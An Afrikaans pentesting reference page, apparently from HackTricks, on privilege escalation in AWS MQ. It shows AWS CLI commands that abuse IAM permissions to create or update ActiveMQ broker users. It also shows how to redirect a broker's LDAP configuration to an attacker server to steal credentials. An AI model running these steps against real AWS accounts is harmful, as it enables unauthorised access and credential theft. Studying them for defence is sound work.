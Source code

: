 # AWS - MQ Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## MQ

Vir meer inligting oor MQ, kyk:

{{#ref}}
../../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potensiële impak:** Toegang tot sensitiewe inligting deur in ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potensiële impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:UpdateBroker`

As 'n broker **LDAP** gebruik vir outorisering met **ActiveMQ**. Dit is moontlik om die **konfigurasie** van die LDAP-server te **verander** na een wat deur die aanvaller beheer word. Op hierdie manier sal die aanvaller in staat wees om **alle credentials wat via LDAP gestuur word te steel**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Indien jy op een of ander manier die oorspronklike credentials wat deur ActiveMQ gebruik is kon vind, kan jy 'n MitM uitvoer, die creds steel, dit op die oorspronklike bediener gebruik en die respons stuur (miskien deur net die gesteelde creds te hergebruik kan jy dit doen).

**Potensiële impak:** Steel ActiveMQ credentials

{{#include ../../../../banners/hacktricks-training.md}}
